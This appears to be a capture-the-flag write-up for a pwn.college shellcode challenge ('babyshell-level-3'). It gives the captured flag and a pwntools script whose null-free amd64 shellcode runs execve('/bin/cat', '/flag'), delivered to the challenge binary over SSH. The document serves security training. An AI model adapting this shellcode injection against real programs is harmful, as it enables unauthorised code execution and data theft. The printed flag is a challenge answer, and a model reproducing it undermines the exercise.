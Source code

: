 This time, no null bytes are allowed, I modified the code to not use them.

Flag - ```pwn.college{8cYHMdcDaShugRbvgx8rhuLZ26T.0VOxIDLxEzN0czW}```

```python
from pwn import *

context.arch='amd64'
context.os='linux'

code=asm('''
push 1
dec byte ptr [rsp]
movabs rax, 0x7461632f6e69622f
push rax
mov rdi, rsp
movabs rax, 0x101010101010101
push rax
movabs rax, 0x10166606d672e01
xor qword ptr [rsp], rax
movabs rax, 0x7461632f6e69622f
push rax
xor esi, esi
push rsi
push 0x11
pop rsi
add rsi, rsp
push rsi
push 0x10
pop rsi
add rsi, rsp
push rsi
mov rsi, rsp
xor edx, edx
push 0x3b
pop rax
syscall
''')
file="/challenge/babyshell-level-3"
host='pwn.college'
username='hacker'
keypath = '~/key'

ssh_connection = ssh(user=username, host=host, keyfile=keypath)

process=ssh_connection.process(file)

process.recvuntil("Reading 0x1000 bytes from stdin.")
process.sendline(code)
process.interactive()
ssh_connection.close()
```
